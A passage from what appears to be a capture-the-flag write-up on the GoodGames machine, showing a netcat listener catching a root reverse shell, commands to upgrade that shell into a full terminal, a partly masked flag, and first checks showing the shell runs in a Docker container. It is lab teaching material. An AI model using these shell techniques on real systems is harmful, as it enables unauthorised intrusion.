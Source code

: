 
On submitting, it hangs, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.130 45016
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@3a453ab39d3d:/backend#
    

I’ll use the `script` trick to get a better shell:

    
    
    root@3a453ab39d3d:/backend# script /dev/null -c bash
    script /dev/null -c bash            
    Script started, file is /dev/null
    root@3a453ab39d3d:/backend# ^Z                 
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@3a453ab39d3d:/backend#
    

There’s also a single user with `user.txt`:

    
    
    root@3a453ab39d3d:/home/augustus# cat user.txt
    e897d18e************************
    

## Shell as augustus on GoodGames

### Enumeration

#### Container

It’s pretty clear that I’m in a Docker container. For one, I’m already root,
but just found `user.txt`. The `ifconfig` shows an IP of 172.19.0.2 on eth0.

There’s a `.dockerenv` file in the filesystem root:

    
    
    root@3a453ab39d3d:~# ls -a /
    .   .dockerenv  bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
    ..  backend     boot  etc  lib   media  opt  root  sbin  sys  usr
    

There are some more subtle things as well. The permissions on files in
`/home/augustus` are showing user ids instead of names:

    
    